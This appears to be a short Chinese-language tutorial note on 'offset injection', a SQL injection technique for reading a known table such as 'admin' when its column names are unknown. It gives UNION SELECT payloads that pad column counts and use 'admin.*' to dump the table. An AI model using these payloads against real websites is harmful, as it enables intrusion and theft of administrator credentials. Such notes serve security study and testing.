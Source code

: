 ## 偏移注入

- 当知道表名不知道字段名的情况下使用偏移注入
  - 因为sql注入是查询网站写好的数据表，想要注入别的数据表必须字段数相同，或者想要查询的数据表的字段小于当前查询的数据表的字段

> 表名.*代表这个数据表里面的所有数据

```
order by有12个字段
```

```
union select 1,2,3,4,5,6,7,8,9,10,11,12 from admin
```

```
想要注入的admin表有6个字段
union select 1,2,3,admin.*,10,11,12 from admin
```